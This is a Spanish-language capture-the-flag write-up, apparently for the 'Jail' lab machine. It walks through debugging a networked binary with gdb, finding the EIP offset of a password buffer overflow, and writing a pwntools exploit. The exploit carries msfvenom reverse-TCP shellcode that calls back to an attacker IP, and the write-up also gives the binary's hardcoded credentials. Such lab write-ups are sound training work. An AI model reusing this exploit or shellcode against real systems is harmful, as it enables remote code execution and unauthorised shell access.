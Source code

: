 ## Vulnerability Assessment {-}


### Buffer Overflow {-}

El codigo nos muestra que compara una String con un username `admin` y una contraseña `1974jailbreak!`.
Vemos que hay una posibilidad de lanzar el binario en modo **Debug**. 

Vemos que una de estas comparativas va con una variable `userpass` que solo tiene un Buffer de 16 Bytes y 
que si lanzamos el binario en modo debug, nos printa la direccion memoria de esta variable.

Tambien vemos que el binario abre el puerto 7411 y lo comprobamos con `lsof`

```bash
lsof -i:7411
./jail
lsof -i:7411
```

#### Analyzando vulnerabilidades con gdb {-}

Lanzamos el binario con gdb

```bash
gdb ./jail
r
```

Y nos connectamos por el puerto 7411

```bash
nc localhost 7411
```

Vemos que el gdb  a creado un processo hijo de modo Detach que no seria la buena forma para tratar. Lo comprobamos 
colapsando el programa poniendo mas de 16 A en el password

```bash
OK Ready. Send USER command.
USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Aqui no vemos nada en el gdb. En estos casos tenemos que configurar una cosa para ver el flujo del processo hijo.

```bash
gdb ./jail
set detach-on-fork off
set follow-fork-mode child
r
```

Aqui ya estamos syncronizados con el processo hijo.

```bash
nc localhost 7411
OK Ready. Send USER command.
USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Intentamos el modo debug 

```bash
nc localhost 7411
OK Ready. Send USER command.
DEBUG
OK DEBUG mode on.

USER admin
OK Send PASS command.
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Debug: userpass buffer @ 0xffffd140
```

Vemos la direccion de la variable userpass y si repetimos la movida multiples vecez, vemos que la direccion no cambia.
Ademas, ya vemos que sobre escribimos registros con A y desde aqui seguimos la guia de un BOF

1. Buscamos Ganar el control del **eip** 

    - creamos un pattern de 150 caracteres
    
        ```bash
        gef➤ pattern create 150
        [+] Generating a pattern of 150 bytes (n=4)
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        [+] Saved as '$_gef0'
        ```

    - lanzamos el script otra vez y pegamos los caracteres

        ```bash
        nc localhost 7411
        OK Ready. Send USER command.
        USER admin
        OK Send PASS command.
        PASS aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        ```

    - el programa peta una vez mas pero el valor del `$eip` a cambiado. Miramos el offset con el commando

        ```bash
        gef➤  pattern offset $eip
        [+] Searching for '$eip'
        [+] Found at offset 28 (little-endian search) likely
        ``` 

        Aqui vemos que tenemos que entrar 28 caracteres antes de sobre escribir el **eip**.

    - Probamos con 28 A y 4 B.

        ```bash
        python -c '28*"A"+4*"B"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

        nc localhost 7411
        OK Ready. Send USER command.
        USER admin
        OK Send PASS command.
        PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
        ```

    - añadimos 4 C para saber donde caen la cosas despues del **eip**

        ```bash
        python -c '28*"A"+4*"B"+8*"C"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC

        nc localhost 7411
        OK Ready. Send USER command.
        USER admin
        OK Send PASS command.
        PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC
        ```

1. Miramos lo que hay en la direccion de la variable userpass

    - lo miramos en forma normal

        ```bash
        gef➤  x/s 0xffffd140
        #Output
        0xffffd140: 'A' <repeats 28 times>, "BBBBCCCCCCCC"
        ```

    - lo miramos en forma hexadecimal
    
        ```bash
        gef➤  x/16wx 0xffffd140
        #Output
        0xffffd140  0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd150  0x41414141  0x41414141  0x41414141  0x42424242
        0xffffd160  0x43434343  0x43434343  0x00000100  0xf7ff4070
        0xffffd170  0x00000001  0xf7ffd590  0x00000000  0x414112db
        ``` 

Aqui vemos que la direccion `0xffffd140` apunta al principio del Buffer (la entrada del usuario). Esto significa
que si el **eip** apunta a la direccion `0xfffd140` sumada por 32 bytes (que serian las 28 A mas los 4 bytes del **eip**),
podriamos ejecutar el shellcode que queremos.

```{r, echo = FALSE, fig.cap="Buffer shell code position", out.width="90%"}
    knitr::include_graphics("images/Jail-Buffer-shellcode-pos.png")
```

[<img src="/images/Jail-Buffer-shellcode-pos.png">]

```{r, echo = FALSE, fig.cap="Buffer shell code position", out.width="90%"}
    knitr::include_graphics("images/Jail-Buffer-shellcode-pos.png")
```

Para esto nos creamos un script en python

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='i386')

p = remote("127.0.0.1", 7411)
# p = remote("10.10.10.34", 7411)


buf = b"\xdb\xc8\xd9\x74\x24\xf4\x5e\xbb\xc5\x90\x9f\x66\x33"
buf += b"\xc9\xb1\x12\x83\xee\xfc\x31\x5e\x13\x03\x9b\x83\x7d"
buf += b"\x93\x12\x7f\x76\xbf\x07\x3c\x2a\x2a\xa5\x4b\x2d\x1a"
buf += b"\xcf\x86\x2e\xc8\x56\xa9\x10\x22\xe8\x80\x17\x45\x80"
buf += b"\x18\xe2\xbb\x58\x75\xf0\xc3\x59\x3e\x7d\x22\xe9\x26"
buf += b"\x2e\xf4\x5a\x14\xcd\x7f\xbd\x97\x52\x2d\x55\x46\x7c"
buf += b"\xa1\xcd\xfe\xad\x6a\x6f\x96\x38\x97\x3d\x3b\xb2\xb9"
buf += b"\x71\xb0\x09\xb9"

before_eip = ("A" * 28).encode()
EIP = p32(0xffffd140+32)
after_eip = buf

p.recvuntil("OK Ready. Send USER command.")
p.sendline("USER admin")
p.recvuntil("OK Send PASS command.")
p.sendline("PASS ".encode() + before_eip + EIP + after_eip)
```

> [ ! ] NOTAS: el shellcode a sido creado con el comando `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -b "\x00\x0a" -f python`. Los badchars
aqui son los que ponemos siempre.

Ahora testeamos el script

1. Lanzamos el jail

    ```bash
    ./jail
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script en python

    ```bash
    python3 exploit.py
    ```

En este caso no funcciona y tito nos adelanta que el problema viene que de vez en cuando, el espacio del shellcode sobrepasa el limite de caracteres que podemos injectar, 
o mejor dicho es demasiado grande. Esta limitacion puede ser bypasseada por una tecnica llamada **reuse addr** explicada en la web de [rastating](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/).
La tecnica consiste en utilizar methodos **send** o **recv** del socket de coneccion para ganar espacio para el shellcode.

Si buscamos por shellcode re-use en [exploit-db](https://www.exploit-db.com/shellcodes/34060), podemos encontrar shellcode que crearian un `/bin/bash`

Modificamos el shellcode del exploit.py y ganamos accesso a la maquina victima

